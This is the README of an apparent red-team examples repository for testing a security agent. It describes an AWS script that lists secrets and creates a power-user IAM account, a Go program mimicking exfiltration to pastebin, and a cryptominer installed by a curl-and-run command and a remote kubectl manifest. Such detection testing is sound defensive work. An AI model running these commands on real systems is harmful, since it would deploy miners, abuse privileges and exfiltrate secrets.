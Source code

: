# Red Team Examples
Red team examples and sample code.  
  
The purpose of red team testing is to validate the state of an environment by simulating an attack. Red team tests are performed by a group of security professionals. These can be:  
  - internal dedicated teams
  - internal security teams
  - external paid entities
  - internal resources from engineering or DevOps who like to tinker!  
  
These examples are simple to run but display behaviours that will test the validity of security systems.  
  
### 1. AWS Account Exploit  
  
This script performs AWS CLI commands to simulate offensive security actions:   
  - lists EC2 instances, security groups, secrets for each region. 
  - creates a new AWS IAM user eg. 'baduser' with power user privileges.    
  - using 'baduser', creates an S3 bucket, and puts a file into it.  
  - cleans up: deletes the bucket, deletes 'baduser'.
  - accepts an optional argument for the username that gets created, otherwise defaults to `baduser`. 
  
##### Prerequisites
  - AWS CLI with profile set. 

##### Usage
Arguments: newusername awsprofile. 
  
```bash 
cd aws_account_exploit
sh ./aws-lateral-movement.sh baduser default
```
  
### 2. Exfiltration Simulation
  
This example pulls data down some random endpoints and then attempts to post it to pastebin. The script does not do anything inherently malicious but is the type of activity indicating data exfiltration.  
  
##### Prerequisites
  - AWS EC2 Linux with Lacework Agent
  - Golang 
  
##### Usage
```bash
apt install golang
  
  
cd GoExfil
go build
go run BasicExfil.go
```
  
### 3. Cryptominer
  
This example installs and runs XMRig, which is a cryptominer. The installation is not malware and does not propagate. 
  
The Crypto Mining script should be run on a standalone EC2 Instance or Kubernetes deployment with Lacework installed. The exploit will only execute in interactive mode, so once the script is terminated, the exploit will be terminated. It’s recommended to run for at least 1 hour to ensure all steps in the exploit are executed.  
  
##### Prerequisites
  - AWS EC2 Linux with Lacework Agent.  
  - (alternative) AWS K8s Cluster with Lacework Agent.  
  
##### Linux VM Deployment
```bash
curl http://lwmalwaredemo.com/install-demo-1.sh -o install-demo-1.sh; sh install-demo-1.sh;
```
  
##### Kubernetes Deployment
Deploys a crypto miner malware example for testing the Lacework agent. 
  
Run the following command to deploy the example.  
```bash
kubectl apply -f https://raw.githubusercontent.com/lacework-dev/scripts/main/k8s-crypto-miner.yaml
```
  
Run the following command to delete the example.  

```bash
kubectl delete -f https://raw.githubusercontent.com/lacework-dev/scripts/main/k8s-crypto-miner.yaml
```
Here is the script:  
https://github.com/lacework-dev/scripts/blob/main/k8s-crypto-miner.yaml
  


